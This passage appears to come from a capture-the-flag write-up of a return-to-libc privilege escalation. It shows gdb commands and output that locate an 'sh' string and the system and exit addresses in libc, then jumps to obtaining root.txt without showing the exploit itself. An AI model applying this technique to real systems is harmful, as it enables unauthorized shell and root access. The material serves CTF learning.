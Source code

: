 ```
	0xf7fd2000 0xf7fd5000     0x3000        0x0
	0xf7fd5000 0xf7fd7000     0x2000        0x0 [vvar]
        <...>
```
`[!]` libc is between **0xf7e11000** and **0xf7fc5000**. We need to find an "sh" string there.
```
(gdb) find 0xf7e11000, 0xf7fc5000, "sh"
0xf7e1f65e
0xf7e1f6a0
0xf7e2065b
0xf7e20c3c
0xf7e22b30
0xf7e2346f
0xf7e23716
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
11 patterns found.
```
`[!]` I'll say that "sh" is at **0xf7e1f65e**.

`[*]` Now, we need to pinpoint locations of necessary functions.
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>
```
`[!]` `system` function is at **0xf7e4c060**.
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e3faf0 <exit>
```
`[!]` `exit` function is at **0xf7e3faf0**.

`[+]` We're ready to create an exploit now!

`[+]` Got **root.txt**!
